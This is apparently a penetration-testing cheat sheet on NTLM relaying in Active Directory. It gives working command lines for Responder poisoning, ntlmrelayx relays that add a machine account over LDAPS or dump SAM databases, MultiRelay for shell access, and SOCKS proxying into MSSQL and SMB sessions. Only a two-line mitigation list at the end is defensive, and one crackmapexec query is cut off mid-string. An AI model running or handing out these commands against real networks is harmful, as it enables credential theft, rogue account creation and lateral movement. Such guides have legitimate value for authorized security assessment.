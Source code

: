 # NTLM Relaying attacks

## LDAP signing not required and LDAP channel binding disabled

### During security assessment, sometimes we don't have any account to perform the audit. Therefore we can inject ourselves into the Active Directory by performing NTLM relaying attack. For this technique three requirements are needed:

#### 1) LDAP signing not required (by default set to Not required )

#### 2) LDAP channel binding is disabled. (by default disabled)

#### 3) ms-DS-MachineAccountQuota needs to be at least at 1 for the account relayed (10 by default)

### Then we can use a tool to poison LLMNR , MDNS and NETBIOS requests on the network such as Responder and use ntlmrelayx to add our computer.

#### 1) Responder on 1 terminal

    sudo ./Responder.py -I eth0 -wfrd -P -v

#### 2) Ntlmrelayx on 2 terminal

    sudo python ./ntlmrelayx.py -t ldaps://IP_DC --add-computer

## It is required here to relay to LDAP over TLS because creating accounts is not allowed over an unencrypted connection.

# SMB Signing Disabled and IPv4

### If a machine has SMB signing : disabled , it is possible to use Responder with Multirelay.py script to perform an NTLMv2 hashes relay and get a shell access on the machine. Also called LLMNR/NBNS Poisoning

#### 1) Open the Responder.conf file and set the value of SMB and HTTP to Off 

#### 2) Run RunFinger.py to detect machine with SMB signing: disabled https://github.com/tholum/PiBunny/blob/master/system.d/library/tools_installer/tools_to_install/responder/tools/RunFinger.py

    python RunFinger.py -i IP_RANGE

#### 3) Run Responder

    sudo responder -I INTERFACE

#### 4) Use a relay tool such as ntlmrelayx or MultiRelay

    impacket-ntlmrelayx -tf targets.txt (Dump the SAM database of the targets in the list)

    python MultiRelay.py -t TARGET_IP -u ALL

#### 5) ntlmrelayx can also act as a SOCK proxy with every compromised sessions

    impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support

### You might need to select a target with "-t"

    impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support

    impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

### The socks proxy can then be used with your Impacket tools or CrackMapExec

    proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth

    proxychains crackmapexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT

    proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1

## MITIGATIONS

#### 1) Disable LLMNR via group policy

#### 2) Disable NBT-NS
